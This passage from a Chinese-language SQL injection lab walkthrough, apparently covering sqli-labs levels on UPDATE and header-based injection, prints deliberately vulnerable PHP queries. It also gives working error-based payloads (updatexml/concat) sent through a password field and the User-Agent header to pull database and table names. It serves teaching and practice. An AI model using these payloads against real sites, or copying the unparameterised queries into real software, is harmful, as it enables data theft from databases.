 我们提供一个存在的uname

```php
$update = "UPDATE users SET password = '$passwd' WHERE username='$row1'";
```

对于update语句，发现可以使用报错注入

paylod: `uname=admin&passwd=admin' and updatexml(1,concat(0x0a,database()),1); --+`

其他同理

### 18-Header Injection- Error Based- string

这题给了个IP的回显，并且对uname和passwd都做了过滤，如果成功登入还会显示你的uagents

```php
	$uagent = $_SERVER['HTTP_USER_AGENT'];
	$IP = $_SERVER['REMOTE_ADDR'];
	echo "<br>";
	echo 'Your IP ADDRESS is: ' .$IP;
	echo "<br>";
```

```php
	$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
	if($row1) {
		...
		$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
		mysql_query($insert);
		...
		echo 'Your User Agent is: ' .$uagent;
		...
		print_r(mysql_error());			
		...
	}
```

可以发现`uname`和`passwd`不好注，但`uagent`是完全没有过滤的

User-Agent: `1',1,updatexml(1,concat(0x0a,database()),1));-- '`

**注意 sql语句中的反引号 \`,会影响`--+`的注释，所以可以使用`#(%23)`或者使用`--+'`把后面单引号或者反引号闭合**

```sql
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,updatexml(1,concat(0x0a,database()),1));-- '`, '$IP', $uname)
```

User-Agent: `1',1,updatexml(1,concat(0x0a,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1));-- '`

### 19-Header Injection- Referer- Error Based- string
